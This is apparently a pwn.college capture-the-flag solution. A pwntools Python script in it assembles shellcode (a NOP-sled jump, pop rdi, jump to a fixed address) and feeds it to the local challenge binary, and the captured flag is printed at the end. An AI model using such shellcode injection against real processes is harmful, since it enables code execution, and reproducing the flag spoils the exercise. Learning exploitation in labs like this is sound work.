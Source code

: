 ## Solution

Task was solved using python:

```py
import pwn
pwn.context.update(arch="amd64")
code = pwn.asm(f"""
JMP .+0x53
{"nop;"*int("51", 16)}
POP rdi
MOV rax, 0x403000
JMP rax
""" )
process = pwn.process("/challenge/run")
process.write(code)
print(process.readall())
```

<details>
    <summary>Flag</summary>

    `pwn.college{0ZecXbvnHXROxQPfxmVY83fhh1h.0FMxIDL5ETN1QzW}`
</details>
